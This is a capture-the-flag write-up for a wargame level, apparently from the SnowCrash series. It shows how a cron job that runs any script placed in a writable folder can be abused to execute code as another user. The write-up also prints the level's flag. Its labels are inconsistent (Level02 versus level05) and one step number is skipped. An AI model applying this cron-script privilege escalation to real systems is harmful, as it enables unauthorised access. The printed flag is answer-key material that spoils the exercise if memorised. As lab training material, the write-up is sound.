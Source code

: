 # Level02

### Tools


### How to solve it

1. After loging in using ssh in level05@(vmIP): 
```
ssh level02@000.000.000.000 -p 4242
```
2. When loging in we get this message:
```
You have new mail.
```
3. If you give a little research you will find that mails are stored in /var/mail or /var/spool so we find:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
4. The command above is a cron file with su -c(switch user and execute command) sh (run the script) flag05(the user) and after that we look for the file openarenaserver and cat this:
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
5. When the openarenaserver is called it run a program stored in /opt/openarenaserver wish is bash -x "$i" line.
So we now have to insert a file in openarenaserver folder to be executed with getflag command:
```
echo 'getflag > /usr/sbin/flag05' > /opt/openarenaserver/flag05 it will not work because this folder has no permission
echo 'getflag > /tmp/flag05' > /opt/openarenaserver/flag05
```
6. So now we know that this program is being executed every 2 minutes and then we cat the /tmp/flag05
8. And Boom:
```
viuaaale9huek52boumoomioc
```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional proction would be implemeting passwords in important files

